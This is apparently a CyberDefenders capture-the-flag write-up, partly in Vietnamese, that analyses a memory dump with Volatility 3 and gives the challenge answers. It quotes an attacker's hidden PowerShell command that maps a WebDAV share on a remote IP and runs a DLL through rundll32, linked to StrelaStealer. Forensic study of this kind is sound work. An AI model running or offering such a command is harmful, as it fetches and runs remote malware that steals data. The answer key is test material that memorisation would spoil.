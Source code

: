 # You are a forensic investigator at a financial institution, and your SIEM flagged unusual activity on a workstation with access to sensitive financial data. Suspecting a breach, you received a memory dump from the compromised machine. Your task is to analyze the memory for signs of compromise, trace the anomaly's origin, and assess its scope to contain the incident effectively.

### Tool:
Volatility 3

## Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process?
powershell.exe

Dùng `windows.cmdline` cung cấp các tham số dòng lệnh của các tiến trình `vol -f /home/tpq/Downloads/CyberDefenders/192-Reveal.dmp windows.cmdline`

![alt text](image-18.png)

## Knowing the parent process ID (PPID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process?
4120

Dùng `vol -f /home/tpq/Downloads/CyberDefenders/192-Reveal.dmp windows.psscan`

![alt text](image-19.png)

## Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload?
3435.dll

Dựa vào PID 3692 là powershell.exe

Command: `powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`

Phân tích:
- `windowstyle hidden`: Ẩn cửa sổ, cho thấy ý định tránh bị phát hiện.
- `net use \\45.9.74.32@8888\davwwwroot\`: Tạo kết nối mạng đến thư mục WebDAV trên máy chủ từ xa (45.9.74.32:8888).
- `rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`: Sử dụng rundll32.exe để tải và thực thi tệp 3435.dll từ thư mục WebDAV

![alt text](image-20.png)

## Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server?
davwwwroot

Dựa vào kết quả trên tên của thư mục được chia sẻ được truy cập trên máy chủ từ xa

![alt text](image-21.png)

## What is the MITRE ATT&CK sub-technique ID that describes the execution of a second-stage payload using a Windows utility to run the malicious file?
T1218.011

T1218.011 - Rundll32: Đây là công nghệ phụ cụ thể mô tả việc sử dụng rundll32.exe để thực thi mã độc, bao gồm cả việc tải và chạy các DLL từ xa (như 3435.dll trong trường hợp này)

![alt text](image-23.png)

## Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under?
elon

Plugin windows.getsids trong Volatility 3 cho phép liệt kê các SID (Security Identifiers) liên quan đến một tiến trình. SID có thể được ánh xạ thành tên người dùng, đặc biệt là SID của tài khoản người dùng hoặc tài khoản hệ thống.
`vol -f /home/tpq/Downloads/CyberDefenders/192-Reveal.dmp windows.getsids --pid 3692`

![alt text](image-24.png)

## Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family?
STRELASTEALER 

Dựa vào kết quả trên ta có IP `45.9.74.32` kiểm tra virustotal ta được báo 

![alt text](image-25.png)
